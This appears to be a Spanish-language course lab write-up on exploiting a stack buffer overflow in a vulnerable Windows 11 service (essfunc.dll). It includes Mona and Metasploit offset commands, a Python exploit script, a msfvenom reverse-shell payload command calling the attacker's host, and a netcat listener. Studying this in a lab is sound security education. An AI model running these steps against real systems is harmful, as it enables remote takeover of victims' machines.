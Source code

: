 ```yaml
---
title: Trabajo Buffer Overflow
date: 2024-11-04 00:21:00 -05:00
categories: [web, Overflow]
tags: [buffer, overflow]  # tag names should always be lowercase
---
```




# Requerimientos del Trabajo Buffer Overflow


## Información del Entorno

- **Sistema objetivo (Windows 11)**:
  - IP: `192.168.1.12`
  - Sistema: Windows 11 con un servicio vulnerable

- **Sistema atacante (Kali Linux)**:
  - VM en el mismo entorno de red
  - Escucha conexiones TCP en el puerto `4444`

## Requerimientos de la Tarea

### Objetivo 1: Verificar Direcciones `JMP ESP` para Explotar el Buffer Overflow

Identificar y verificar, si alguna de las direcciones `JMP ESP` en el módulo vulnerable del sistema Windows 11 permite redirigir el flujo de ejecución hacia el shellcode. Esto permitirá ejecutar el exploit y obtener una conexión remota.

#### Paso 1.1: Identificar Direcciones `JMP ESP`

Se usara **Mona** en **Immunity Debugger** para buscar la instrucción `JMP ESP` en el módulo vulnerable del Windows 11, que en este caso es `essfunc.dll`. Estas direcciones nos permitirán redirigir la ejecución hacia la dirección de memoria donde se encuentra nuestro shellcode.

Ejecutamos el siguiente comando en Immunity Debugger en Windows:

```plaintext
!mona find -s "\xff\xe4" -m essfunc.dll
```

La salida de este comando nos da una lista de direcciones `JMP ESP` en `essfunc.dll`. Se tomara nota de estas direcciones para probarlas en el exploit.

#### Paso 1.2: Calcular el Offset para Sobrescribir el EIP

Para sobrescribir el **EIP** y redirigir el flujo de ejecución correctamente, debemos calcular el desplazamiento (offset) exacto en el buffer. Para hacerlo, usaremos herramientas de Metasploit desde Kali Linux.

1. **Generamos un patrón de prueba** de 400 bytes:
   ```bash
   /usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 400
   ```
2. Ejecutamos este patrón en el programa vulnerable en la laptop Windows 11 para provocar un crash.
3. Cuando el programa se detenga, verificamos el valor que sobrescribió el EIP y calculamos el offset:
   ```bash
   /usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -q <VALOR_EIP>
   ```
   
Este valor será el tamaño necesario para llegar a sobrescribir el EIP y así redirigir la ejecución al shellcode.


#### Paso 1.3: Crear el Payload para el Exploit

Con el offset y la dirección `JMP ESP` confirmada, podemos construir el exploit en Python. Este exploit inyectará un payload que contiene un shellcode para obtener una conexión TCP inversa desde la laptop Windows hacia Kali Linux.


```python
import socket
import struct

# Configuración de conexión
ip = "192.168.1.12"  # IP del sistema Windows 11
port = 9999          # Cambia este puerto al puerto donde el servicio vulnerable está escuchando

# Configuración del payload
offset = <OFFSET_CALCULADO>  # Reemplaza con el valor obtenido en el cálculo del offset
buffer = b"A" * offset
jmp_esp = struct.pack("<I", 0x625011af)  # Dirección de JMP ESP en el módulo essfunc.dll
nop_sled = b"\x90" * 16  # NOP sled para estabilizar el shellcode

# Generación del shellcode con msfvenom (en Kali Linux):
# msfvenom -p windows/shell_reverse_tcp LHOST=192.168.1.10 LPORT=4444 -f python -b "\x00"
shellcode = (
    b"\xdb\xc4\xd9\x74\x24\xf4\x58\x2b\xc9\xb1\x52\x31\x50\x17\x03\x50\x17"
    # Este es solo un ejemplo de shellcode; reemplaza por el generado
)

# Estructura del payload
payload = buffer + jmp_esp + nop_sled + shellcode

# Enviar el payload al servicio vulnerable en la máquina Windows 11
with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
    s.connect((ip, port))
    s.send(payload)
```

Este código envía un buffer que sobrescribe el EIP con la dirección `JMP ESP`, redirigiendo la ejecución hacia nuestro shellcode, que establece una conexión TCP inversa con Kali Linux.





### Objetivo 2: Explicar el Funcionamiento de la Conexión TCP Reversa

Una **conexión TCP reversa** es una técnica en la que el sistema comprometido (Windows 11) inicia una conexión hacia el atacante (Kali Linux). Esto es útil en muchos casos porque los firewalls permiten conexiones salientes, lo cual facilita el control de la máquina víctima.

#### Setup de Laboratorio para Conexión TCP Reversa

Para esta práctica, configuramos una VM **Kali Linux** que actuará como el atacante y una laptop **Windows 11** que será la víctima. La máquina Kali Linux escuchará en el puerto `4444` y esperará una conexión que será iniciada desde la máquina Windows cuando se ejecute el shellcode.

**Diagrama de Conexión**:

```plaintext
+-------------------+                   +-------------------+
|     Kali Linux    | <----TCP----->    |     Windows 11    |
| (Listener activo) |                   |  (Vulnerable)     |
+-------------------+                   +-------------------+
```

Para escuchar la conexión en **Kali Linux** usamos **Netcat**:

```bash
nc -lvnp 4444  # Escuchar en el puerto 4444
```

Cuando el exploit se ejecute en la máquina Windows, esta se conectará a Kali Linux en el puerto 4444, proporcionando una shell remota al atacante.




### Objetivo 3: Verificación de los Permisos en la Shell Obtenida

Una vez obtenida la conexión TCP inversa y acceso a la shell, necesitamos verificar los permisos del usuario en la máquina Windows 11. Esto nos permitirá saber si tenemos acceso administrativo o acceso restringido.

#### Paso 3.1: Comprobar Privilegios del Usuario en la Máquina Víctima

Dentro de la shell remota en Windows 11, ejecutamos los siguientes comandos para obtener información sobre el usuario y los permisos:

1. **Verificar el usuario activo**:
   ```cmd
   whoami
   ```
   Este comando nos muestra el nombre del usuario activo en la máquina comprometida.

2. **Listar los grupos y permisos del usuario**:
   ```cmd
   net user
   ```
   Esto permite verificar si tenemos privilegios elevados (de administrador) o si necesitamos realizar una **escalada de privilegios**.

Con estos comandos, podemos confirmar si tenemos acceso de administrador o si será necesario aplicar técnicas adicionales para escalar privilegios.



## Conclusión

- Este procedimiento ha cubierto todos los pasos necesarios para explotar una vulnerabilidad de buffer overflow en una máquina Windows 11 y obtener una conexión TCP inversa desde Kali Linux.

- Estos pasos incluyen la identificación de direcciones `JMP ESP`, el cálculo del offset, la construcción de un payload con un shellcode de conexión reversa y la verificación de permisos en la shell obtenida.


